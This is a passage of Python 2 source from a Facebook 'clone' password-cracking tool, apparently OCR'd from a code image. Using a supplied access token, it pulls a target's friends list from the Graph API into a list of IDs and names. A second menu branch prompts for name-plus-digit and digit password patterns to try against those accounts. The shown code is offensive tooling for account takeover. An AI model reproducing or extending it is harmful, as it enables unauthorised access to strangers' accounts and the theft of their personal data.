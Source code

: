         try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     CHOICE PASS CRACKING'
            print '\x1b[1;97m======================================================='
            print '[+] CLONING FROM : \x1b[1;92m' + q['name']
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            choice()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rishu == '2':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;97m======================================================='
        p3 = raw_input('[1] name+digit : ')
        p4 = raw_input('[2] name+digit : ')
        p5 = raw_input('[3] name+digit : ')
        p6 = raw_input('[4] name+digit : ')
        p7 = raw_input('[5] name+digit : ')
        p8 = raw_input('[6] name+digit : ')
        ps9 = raw_input('[7] digit : ')
        ps10 = raw_input('[8] digit : ')
        ps11 = raw_input('[9] digit : ')
        ps12 = raw_input('[10] digit : ')
        ps13 = raw_input('[11] digit : ')
        ps14 = raw_input('[12] digit : ')
        ps15 = raw_input('[13] digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     CHOICE PASS CRACKING'
            print '\x1b[1;97m======================================================='
            print '[+] CLONING FROM : \x1b[1;92m' + q['name']
        except KeyError:
            print '\tInvalid id link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            choice()
